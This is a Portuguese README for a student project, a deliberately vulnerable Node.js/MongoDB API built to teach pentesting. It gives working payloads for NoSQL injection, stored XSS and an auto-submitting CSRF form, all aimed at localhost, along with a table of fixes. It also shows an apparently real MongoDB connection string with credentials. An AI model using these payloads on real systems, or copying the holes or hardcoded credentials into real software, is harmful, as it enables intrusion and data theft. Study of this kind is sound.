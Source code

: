 # API-Vulnerável - Projeto de Estudo de Pentesting em Aplicações Node.js (Versão 1.0)

Este projeto consiste em uma API RESTful propositalmente vulnerável, desenvolvida com Node.js, Express e MongoDB.  
O objetivo é demonstrar na prática vulnerabilidades comuns em aplicações web, incluindo **NoSQL Injection**, **XSS (Cross Site Scripting)** e **CSRF (Cross Site Request Forgery)**.

---

## Instalação das Dependências

```bash
npm install
```

ou

```bash
yarn install
```

---

## Como Rodar a Aplicação Localmente

1. Crie um arquivo `.env` na raiz do projeto com as seguintes variáveis:

```
PORT=3000
MONGODB_URI=mongodb+srv://admin:adminsenha@cluster0.ddytvld.mongodb.net/?retryWrites=true&w=majority&appName=Cluster0
```

2. Inicie o servidor:

```bash
node app.js
```

A aplicação estará disponível em:

```
http://localhost:3000
```

---

## Endpoints Disponíveis

### Criar Usuário

**POST** `/users`

```json
{
  "username": "admin",
  "email": "admin@example.com",
  "password": "123456"
}
```

### Buscar Todos os Usuários

**GET** `/users`

### Atualizar Usuário

**PUT** `/users/:id`

```json
{
  "username": "adminAtualizado"
}
```

### Deletar Usuário

**DELETE** `/users/:id`

---

## Ataques Demonstrados

### 1️ NoSQL Injection

**Como realizar:**

**POST** `/users/find` com o payload:

```json
{
  "username": { "$ne": null }
}
```

**Resultado:**
- A API retorna todos os usuários, ignorando filtros → demonstração de uma injeção NoSQL bem sucedida.

---

### 2️ Cross Site Scripting (XSS)

**Como realizar:**

**POST** `/users` criando usuário com:

```json
{
  "username": "<script>alert('XSS Ativo')</script>",
  "email": "xss@example.com",
  "password": "123456"
}
```

**Resultado:**
- Quando listados com **GET /users**, os dados voltam exatamente como foram inseridos.
- Em uma aplicação frontend que renderize este dado, o script será executado → demonstrando XSS Armazenado.

---

### 3️ Cross Site Request Forgery (CSRF)

**Como realizar:**

Criar um arquivo `index.html` com:

```html
<!DOCTYPE html>
<html>
<body>
<h1>CSRF Attack Test</h1>

<form action="http://localhost:3000/users" method="POST">
  <input type="hidden" name="username" value="csrf_injected_user">
  <input type="hidden" name="email" value="csrf@example.com">
  <input type="hidden" name="password" value="123456">
</form>

<script>
  document.forms[0].submit();
</script>

</body>
</html>
```

**Resultado:**
- Um usuário é criado na API sem o consentimento da vítima → CSRF realizado com sucesso.

---

## Relatórios

### Sumário Executivo

Este projeto é uma simulação educativa de uma API RESTful com vulnerabilidades propositalmente expostas.  
O objetivo é demonstrar na prática como entradas maliciosas podem comprometer a aplicação e o banco de dados.  
As vulnerabilidades incluídas (NoSQL Injection, XSS e CSRF) representam falhas críticas comuns que, se não tratadas, podem ser exploradas em ambientes reais.

---

### Relatório Técnico

| Vulnerabilidade | Como é explorada | Consequências | Como corrigir |
|-----------------|------------------|---------------|---------------|
| NoSQL Injection | Enviando payloads especiais para consultas sem validação | Vazamento e manipulação de dados | Validação de entradas e parametrização |
| XSS (Stored) | Inserção de scripts em campos aceitos pela API | Execução de código malicioso no navegador da vítima | Sanitização de entradas e saídas + CSP |
| CSRF | Criação de requisições maliciosas automáticas vindas de outro site | Execução de ações sem consentimento do usuário | Uso de tokens anti-CSRF e autenticação via JWT |

---

##  Autores

- Andressa Lopes
- Davi Pereira
- Gustavo Marcelino
- Rebeca Lara
- Stefani Santana
